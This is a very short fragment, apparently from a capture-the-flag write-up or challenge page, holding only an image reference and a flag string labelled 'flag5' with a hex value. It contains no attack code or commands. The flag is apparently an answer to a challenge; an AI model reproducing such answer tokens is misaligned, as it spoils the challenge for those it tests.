 
  
flag5{42273509a79da5bf49f9d40a10c512dd96d89f6a}
